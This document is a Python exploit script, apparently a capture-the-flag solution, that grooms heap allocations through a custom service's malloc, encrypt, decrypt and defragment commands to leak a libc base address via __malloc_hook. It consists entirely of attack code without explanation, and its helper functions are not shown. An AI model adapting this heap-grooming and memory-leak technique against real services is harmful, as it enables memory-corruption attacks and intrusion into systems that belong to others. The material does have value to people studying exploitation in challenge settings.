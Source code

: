 ```python
class Exploit():
    CURRENT_RAM_ID = 0

    def __init__(self):
        pass
    
    def exploit(self):
        libc.address = self.leak_libc()
        log.info(f"Leaked libc address is {hex(libc.address)}")
        input("<<<>>>")

    def leak_libc(self):
        c1 = conn()
        c2 = conn()
        
        r = conn()
        ram_id = point_at(r, 0x10410, 0x20)
        send_4_RAM_encrypt(r, ram_id, 0x10, b"\x00"*8 + 0x141.to_bytes(8, "little"))
        c1.close()
        leak = send_3_RAM_decrypt(r, ram_id)
        r.close()
        c2.close()
        return int.from_bytes(leak[16:24], "little") - libc.symbols["__malloc_hook"] - 112

def point_at(r, to_point, size):
    long  = to_point//(0x5c0c + 0xc*2 + 0x10)
    short = (to_point - long*(0x5c0c + 0xc*2 + 0x10))//0x20c
    done  = to_point - long*(0x5c0c + 0xc*2 + 0x10) - short*0x20c

    if done - 2*0xc < 0:
        raise Exception("Not good path found")

    if done - 2*0xc != 0:
        send_1_RAM_malloc(r, done-2*0xc, 0)
        Exploit.CURRENT_RAM_ID += 1

    for _ in range(long):
        send_1_RAM_malloc(r, 0x01, 1)
        send_1_RAM_malloc(r, 0x01, 1)
        send_4_RAM_encrypt(r, Exploit.CURRENT_RAM_ID, 0x10, b"b"*0x10)
        Exploit.CURRENT_RAM_ID += 2

    for _ in range(short):
        send_1_RAM_malloc(r, 0x200, 0)
        Exploit.CURRENT_RAM_ID += 1

    send_7_RAM_unfragment(r)
    send_1_RAM_malloc(r, size, 0)
    Exploit.CURRENT_RAM_ID += 1

    return Exploit.CURRENT_RAM_ID-1

def main():
    exp = Exploit()
    exp.exploit()

if __name__ == "__main__":
    main()
```

